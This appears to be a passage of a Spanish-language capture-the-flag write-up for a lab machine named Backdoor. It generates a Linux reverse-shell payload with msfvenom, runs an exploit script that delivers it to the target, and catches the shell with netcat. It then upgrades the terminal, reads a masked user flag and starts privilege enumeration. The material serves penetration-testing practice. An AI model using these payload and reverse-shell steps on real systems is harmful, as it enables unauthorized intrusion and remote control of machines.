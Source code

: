 ```plaintext
❯ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.242 LPORT=443 PrependFork=true -o rev.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Saved as: rev.bin
```

Esta reverse shell indica que cuando se ejecute envie una shell a la IP 10.10.14.242 por el puerto 443.

```plaintext
❯ python3 exploit.py 10.10.11.125:1337 rev.bin
[+] Connected to target. Preparing exploit
[+] Found x64 arch
[+] Sending payload
[*] Pwned!! Check your listener
```

Tenemos acceso a la máquina víctima :D

# Post-explotación

Ya podriamos leer la flag del usuarios, pero primero haremos funcional la terminal, para que podamos hacer CTRL + C, CTRL + V...

```plaintext
❯ nc -nlvp 443 
listening on [any] 443 ...
connect to [10.10.14.242] from (UNKNOWN) [10.10.11.125] 41368
❯ script /dev/null -c bash
Script started, file is /dev/null
❯ user@Backdoor:/home/user$ CTRL + Z
[1]+ Detenido		nc -nlvp 443
❯ stty raw -echo; fg
nc -nlvp 443
	reset
reset: unknow terminal type unknown
Terminal type? xterm
❯ export SHELL=bash
❯ export TERM=xterm
❯ stty rows 49 columns 189
```

Ahora si, leeremos la flag del usuario.

```plaintext
❯ cat user.txt
9d44e4692ebdcf2d****************
```

Empezaremos con una enumeración básica, vamos a ver si pertenecemos a algun grupo interesante:

```plaintext
❯ id
uid=1000(user) gid=1000(user) groups=1000(user)
```
